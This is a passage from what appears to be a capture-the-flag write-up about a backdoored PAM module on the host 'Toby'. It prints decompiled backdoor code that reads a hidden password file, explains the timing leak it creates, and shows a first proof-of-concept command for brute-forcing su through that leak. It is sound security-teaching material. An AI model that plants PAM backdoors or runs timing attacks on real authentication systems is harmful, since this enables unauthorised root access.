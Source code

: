 
          do {
            __stream = fopen("/etc/.bd","r");
            if (__stream == (FILE *)0x0) goto LAB_001048ff;
            __isoc99_fscanf(__stream,"%[^\n]",file_pass);
            fclose(__stream);



It is poor coding that it's opening the file and re-reading the contents
on each loop, rather than once outside the loop. On line 63 is compares
byte `i` for `input_pass` and `file_pass`, and basically exits if they
don't match by passing to the default behavior:



            if (input_pass[i] != *(char *)((long)file_pass + i)) {
    LAB_001049d0:
              res = _unix_verify_password(pamh,name,p,ctrl);
              *piVar2 = res;
              goto LAB_00104990;
            }



At the very end of the loop on line 87, there's a `usleep(100000)`,
which will sleep for 0.1 second. It's worth noting that it only reaches
this point if the character was correct.

The while loop runs while `i != 10`, so that implies a hardcoded length
of the password.

`/etc/.bd` is on Toby, and only readable by root:



    jack@toby:/etc$ ls -l .bd
    -r-------- 1 root root 10 Jul 14 13:39 .bd



It also has 10 bytes.

### Brute Force

#### POC

The theory here is that it will take 0.1 seconds longer for each
character that's right starting at the start of the password. I can test
this will a quick Bash loop. First, to test, I'll `echo` the password
and pipe that into `time su`:



    jack@toby:/etc$ echo "a---------" | time su 
    Password: su: Authentication failure
    Command exited with non-zero status 1
    0.01user 0.00system 0:01.01elapsed 1%CPU (0avgtext+0avgdata 3736maxresident)k
    0inputs+8outputs (0major+278minor)pagefaults 0swaps


